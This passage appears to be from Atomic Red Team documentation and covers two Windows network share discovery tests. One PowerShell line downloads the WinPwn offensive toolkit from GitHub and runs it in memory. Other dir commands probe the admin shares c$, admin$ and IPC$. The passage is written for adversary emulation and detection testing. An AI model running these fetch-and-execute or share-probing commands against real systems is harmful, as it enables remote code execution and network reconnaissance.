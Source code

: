 


<br/>
<br/>

## Atomic Test #9 - WinPwn - shareenumeration
Network share enumeration using the shareenumeration function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 987901d1-5b87-4558-a6d9-cffcabc638b8






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
shareenumeration -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #10 - Network Share Discovery via dir command
Network Share Discovery utilizing the dir command prompt. The computer ip variable may need to be modified to point to a different host ip
Upon execution avalaible network shares will be displayed in the commandline session

**Supported Platforms:** Windows


**auto_generated_guid:** 13daa2cf-195a-43df-a8bd-7dd5ffb607b5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_ip | Computer IP to find a mount on. | string | 127.0.0.1|


#### Attack Commands: Run with `command_prompt`! 


```cmd
dir \\#{computer_ip}\c$
dir \\#{computer_ip}\admin$
dir \\#{computer_ip}\IPC$
```






<br/>
